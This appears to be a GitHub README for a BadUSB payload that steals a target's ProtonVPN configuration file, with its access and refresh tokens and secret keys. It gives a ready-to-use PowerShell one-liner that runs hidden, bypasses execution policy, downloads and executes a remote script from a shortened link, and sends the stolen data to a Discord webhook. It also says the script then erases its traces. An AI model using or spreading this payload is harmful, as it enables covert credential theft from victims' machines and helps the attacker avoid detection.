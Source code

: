 # ProtonVPN config file - BadUSB ✅

A script used to stole target ProtonVPN config file.


[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2Faleff-github%2Fmy-flipper-shits&count_bg=%233C3C3C&title_bg=%233C3C3C&icon=linux.svg&icon_color=%23FFFFFF&title=views&edge_flat=false)](https://github.com/aleff-github/my-flipper-shits)

**Category**: Exfiltration

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/logo-repository-2_0.gif" width="600" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

This script will stole target ProtonVPN config file.

Opens PowerShell hidden, grabs ProtonVPN config file, saves as a cleartext in a variable and exfiltrates info via Discord Webhook.
In the config file you can find a lot information about the user like:
- UserUid 
- UserAccessToken
- UserRefreshToken
- UserAuthenticationPublicKey
- UserAuthenticationSecretKey
- UserAuthenticationCertificatePem
- UserCertificationServerPublicKey 
- and so on...

Then it cleans up traces of what you have done after.

## Getting Started

### Dependencies

* ProtonVPN user logged at least one time
* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke Get-Content for get in plaintext the ProtonVPN .config content
* Invoke-WebRequest will be entered in the Run Box to send the content

```
powershell -w h -ep bypass $discord='<your-webhook-here>';irm bit.ly/ProtonVpnConfigScript | iex
```

You must put your Discord webhook into the variable $discord='\<your-webhook-here>'

## Credits

<h2 align="center"> Aleff :octocat: </h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Linkedin
    </td>
  </tr>
</table>
</div>
